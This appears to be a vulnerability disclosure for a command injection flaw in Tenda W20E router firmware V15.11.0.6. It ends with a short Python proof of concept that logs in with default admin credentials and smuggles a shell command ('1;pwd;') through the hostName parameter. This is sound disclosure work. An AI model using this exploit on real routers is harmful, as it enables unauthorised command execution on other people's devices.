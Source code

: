 ## Tenda W20E command injection

### Overview

* Vendor: Tenda

* Product: Tenda W20E
* Version: V15.11.0.6

* Manufacturer's address：https://www.tendacn.com/
* Firmware download address ：https://static.tenda.com.cn/tdcweb/download/uploadfile/W20E/US_W20EV4.0br_V15.11.0.6(1068_1546_841)_CN_TDC.zip

### Vulnerability details

Tenda W20E V15.11.0.6 was found to contain a command injection vulnerability in the `formSetNetCheckTools` function via the `hostName` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

Function `formSetNetCheckTools`:

![image1](./img/1.png)

Function `cmd_get_traceroute_output`:

![image2](./img/2.png)

Function `traceroute_handle_thread`:

![image3](./img/3.png)

#### PoC

```
import requests

cmd  = 'NetType=2' 
cmd += '&action=start'
cmd += '&hostName='+ '1;pwd;' 

url = b"http://192.168.2.2/login/Auth"
payload = b"http://192.168.2.2/goform/formSetNetCheckTools/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()
```

